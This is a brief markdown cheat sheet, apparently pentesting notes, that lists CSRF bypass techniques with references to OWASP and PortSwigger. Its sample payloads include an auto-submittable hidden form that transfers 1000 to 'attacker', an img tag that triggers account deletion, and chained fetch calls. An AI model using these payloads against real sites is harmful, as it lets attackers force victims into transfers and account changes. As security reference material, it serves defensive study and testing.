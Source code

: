 # CSRF Bypass Techniques
## Content-Type Bypass
Some backends only check for application/x-www-form-urlencoded:
```
Content-Type: text/plain
```
OR
```
Content-Type: application/json
```
→ May bypass filters if not validating content type strictly.
## CORS Misconfiguration + CSRF
If target uses Access-Control-Allow-Origin: * with cookies:

* Can trigger CSRF via fetch() or XMLHttpRequest.
* Especially dangerous if credentials included (credentials: include).

  ## Missing SameSite Cookies
  If cookies are set without SameSite=Strict or Lax:
  ```
  Set-Cookie: session=abc123; Path=/;
  ```
→ CSRF is possible via normal <form> or JS requests.
## Custom Headers Not Required

If the app does not check for Origin / Referer:
 * Basic HTML forms can exploit CSRF easily:
 ```
   <form action="https://target.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="attacker">
  <input type="submit">
</form>
```
## GET-Based Actions
* If critical actions (like logout, delete, change email) use GET requests:
```
<img src="https://target.com/delete-account"> 
```
## Cache Poisoning with CSRF
* Poison cache via crafted request
* Victim loads poisoned response, triggers CSRF passively

## Multi-Step CSRF

* If action requires multiple steps (token, confirm), automate them:
```
fetch('https://target.com/init')
  .then(() => fetch('https://target.com/confirm'));
```
## Bypassing Token-Based Protections

If CSRF tokens are:

* Predictable
* Leaked
* Replace with Null
* Delete the Token
* Reused
* Not tied to user session

Example: csrf_token=12345
→ Replay the same token across users

## Open Redirect + CSRF
If there's an open redirect:

* Lure user to a CSRF-hosting page that redirects to action
* Helps bypass referrer checks

References:
https://portswigger.net/web-security/csrf/

https://owasp.org/www-community/attacks/csrf

https://www.cobalt.io/blog/csrf-bypasses

https://bugbase.ai/blog/how-to-bypass-csrf-protection

https://www.intigriti.com/researchers/blog/hacking-tools/csrf-a-complete-guide-to-exploiting-advanced-csrf-vulnerabilities

https://johnermac.github.io/notes/ewptx/csrf/

https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html

